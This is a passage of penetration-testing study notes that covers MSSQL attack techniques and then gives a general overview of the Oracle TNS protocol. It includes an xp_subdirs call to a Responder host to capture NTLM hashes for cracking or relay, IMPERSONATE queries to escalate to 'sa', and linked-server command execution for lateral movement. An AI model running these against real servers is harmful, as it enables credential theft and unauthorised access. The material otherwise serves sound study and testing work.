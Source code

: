      EXEC master..xp_subdirs '\\[RESPONDER IP]\share\'
     ```
     
  3. Crack the Hash

  4. If cracking doesn't work, relay

- **IMPERSONATE to Privesc**  

   Sysadmins can impersonate anyone by default.

  ```bash
  # Identify which Users we can impersonate
  SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
  GO
  
  # Impersonate an User (e.g. sa) - Recommended within the master DB 
  EXECUTE AS LOGIN = 'sa' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
  GO
  
  # Revert the operation and return to our previous user
  REVERT
  ```
  
- **Communicate with other DB**

  If we manage to gain access to a SQL Server with a linked server  configured, we may be able to move laterally to that database server. 

  ```bash
  # Identify linked Servers (0 is a linked server)
  SELECT srvname, isremote FROM sysservers
  
  # Execute command in the linked server
  EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [[LINKED SERVER]]
  # The output will be 4 numbers, 0 for False and 1 for True
  # If you need quotes in the EXECUTE command, use double quotes inside
  ```
  
  

## 1521 - ORACLE

### Generalities

- **Type:**
- Purpose:
  - communication protocol that facilitates communication between Oracle databases and applications over networks.
- Structure
  - Can support `SSL/TLS` encryption
  -  it enables encryption between client and server communication through  an additional layer of security over the TCP/IP protocol layer.
  - Supports `IPv6`
  - The TNS listener listens for incoming connections in the port.
    - it will only accept connections from authorized hosts
    - it performs basic authentication using a combination of hostnames, IP  addresses, and usernames and passwords. 
    - It uses Oracle Net Services to encrypt the communication between the client  and the server.
  - a System Identifier (`SID`) is a unique name that identifies a particular database instance. It can have multiple instances, each with its own System ID. 
  - An instance is a set of processes and memory structures that interact to manage the database's data.
